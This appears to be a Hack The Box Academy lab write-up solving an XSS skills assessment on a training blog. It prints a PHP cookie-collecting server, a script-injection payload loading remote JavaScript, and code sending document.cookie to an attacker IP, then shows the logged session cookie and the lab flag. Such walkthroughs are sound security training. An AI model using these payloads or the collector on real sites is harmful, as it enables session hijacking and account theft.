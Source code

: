 We are performing a Web Application Penetration Testing task for a company that hired you, which just released their new`Security Blog`. In our Web Application Penetration Testing plan, we reached the part where you must test the web application against Cross-Site Scripting vulnerabilities (XSS).

Start the server below, make sure you are connected to the VPN, and access the`/assessment` directory on the server using the browser:

 ![](https://academy.hackthebox.com/storage/modules/103/xss_skills_assessment_website.jpg)

Apply the skills you learned in this module to achieve the following:

1. Identify a user-input field that is vulnerable to an XSS vulnerability
2. Find a working XSS payload that executes JavaScript code on the target's browser
3. Using the`Session Hijacking` techniques, try to steal the victim's cookies, which should contain the flag


### Identifying the vulnerable parameter
---

Once we go into the website we can see the following:

![Pasted image 20250130180314.png](../../../IMAGES/Pasted%20image%2020250130180314.png)

If we go to the `Welcome to Security Blog` URL, we can see the following:

![Pasted image 20250130180344.png](../../../IMAGES/Pasted%20image%2020250130180344.png)

At first glance, the comments section seems vulnerable to XSS, let's test some simple payload to check the behavior of the web application, we can set up the same PHP server form the [Session Hijacking](XSS%20Attacks/Session%20Hijacking.md) section:

```php
<?php 
if (isset($_GET['c'])) { 
$list = explode(";", $_GET['c']); 
foreach ($list as $key => $value) { 
$cookie = urldecode($value); 
$file = fopen("cookies.txt", "a+"); 
fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n"); 
fclose($file); 
} 
} 
?>
```

```js
document.location='http://10.10.15.141/index.php?c='+document.cookie; 
new Image().src='http://10.10.15.141/index.php?c='+document.cookie;
```

We can send the payloads in each section to check which one is vulnerable:

```js
"><script src=http://10.10.15.141/script.js></script>
```

![Pasted image 20250130181138.png](../../../IMAGES/Pasted%20image%2020250130181138.png)

After a bit, we'll get the following in our server:

```
[Thu Jan 30 23:10:18 2025] PHP 8.3.15 Development Server (http://0.0.0.0:80) started
[Thu Jan 30 23:11:08 2025] 10.129.147.238:37824 Accepted
[Thu Jan 30 23:11:08 2025] 10.129.147.238:37824 [200]: GET /script.js
[Thu Jan 30 23:11:08 2025] 10.129.147.238:37824 Closing
[Thu Jan 30 23:11:08 2025] 10.129.147.238:37826 Accepted
[Thu Jan 30 23:11:08 2025] 10.129.147.238:37826 [200]: GET /index.php?c=wordpress_test_cookie=WP%20Cookie%20check;%20wp-settings-time-2=1738278667;%20flag=HTB{cr055_5173_5cr1p71n6_n1nj4}
[Thu Jan 30 23:11:08 2025] 10.129.147.238:37826 Closing
[Thu Jan 30 23:11:09 2025] 10.129.147.238:37828 Accepted
[Thu Jan 30 23:11:14 2025] 10.129.147.238:37828 Closed without sending a request; it was probably just an unused speculative preconnection
[Thu Jan 30 23:11:14 2025] 10.129.147.238:37828 Closing
```

We got the flag: `HTB{cr055_5173_5cr1p71n6_n1nj4}`

![Pasted image 20250130181248.png](../../../IMAGES/Pasted%20image%2020250130181248.png)

